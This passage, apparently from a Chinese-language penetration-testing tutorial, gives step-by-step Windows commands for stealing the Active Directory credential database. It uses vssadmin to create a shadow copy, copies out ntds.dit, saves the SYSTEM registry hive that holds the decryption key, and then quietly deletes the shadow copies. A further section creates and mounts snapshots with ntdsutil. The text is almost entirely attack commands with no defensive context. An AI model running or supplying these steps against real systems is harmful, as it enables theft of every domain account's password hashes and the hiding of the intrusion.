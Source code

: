 【管理员权限】

```
C:\Users\Administrator>vssadmin list shadows
C:\Users\Administrator>vssadmin create shadow /for=C:
C:\Users\Administrator>vssadmin list shadows
```

```
C:\Users\Administrator>copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\extract\ntds.dit
```

```
C:\Users\Administrator>reg save hklm\system c:\extract\SYSTEM_reg
```

```
C:\Users\Administrator>vssadmin delete shadows /Shadow={22af24c0-bcd4-46b1-aff7-dce2dc4f25f6} /quiet
C:\Users\Administrator>vssadmin delete shadows /for=c: /quiet
C:\Users\Administrator>vssadmin list shadows
```

##### **2. ntdsutil.exe**

域环境默认安装

查询当前系统的快照

```
ntdsutil snapshot "List All" quit quit
ntdsutil snapshot "List Mounted" quit quit
```

创建快照

```
ntdsutil snapshot "activate instance ntds" create quit quit
```

![Alt text](/assets/img/2-1.png)

挂载快照

```
ntdsutil snapshot "mount {6e31c0ab-c517-420b-845d-c38acbf77ab9}" quit quit
```

![Alt text](/assets/img/2-2.png)
